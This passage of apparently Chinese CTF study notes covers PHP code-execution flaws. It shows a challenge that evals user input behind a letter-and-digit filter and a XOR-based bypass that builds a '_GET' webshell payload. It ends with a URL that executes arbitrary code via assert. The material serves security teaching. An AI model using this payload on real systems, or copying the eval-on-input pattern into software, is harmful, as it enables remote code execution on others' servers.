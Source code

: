 ```````

cat /etc/os-release
----------253975810--


```
![image-20240228170508946](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170508946.png)
#### CTF实战
题目
index.php
```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){ //检测字符长度
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){ //限制字母和数字
        die("NO.");
    }
    @eval($code); //$code的值要为非字母和数字
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```
flag.php
```php
<?php
	function getFlag(){
		$flag = "111111111111111111";
		echo $flag;
};
?>
```
##### 解题过程
```php
//_POST和_GET的异或如下
<?php
var_dump("#./|{"^"|~`//"); //_POST
var_dump("`{{{"^"?<>/"); //_GET
//也可以使用编码后的版本
var_dump("%ff%ff%ff%ff"^"%a0%b8%ba%ab"); //_GET
?>
```
webshell
```php
$_="%ff%ff%ff%ff"^"%a0%b8%ba%ab";${$_}[_](${$_}[__]);&_=getFlag
    
$_="%ff%ff%ff%ff"^"%a0%b8%ba%ab"; //_GET
${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
&_=getFlag //执行函数 eval("getFlag(null)")
```
![image-20240228170516531](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228170516531.png)
执行任意代码

```
http://localhost:8080/?code=$_="%ff%ff%ff%ff"^"%a0%b8%ba%ab";${$_}[_](${$_}[__]);&_=assert&__=phpinfo()
```
```````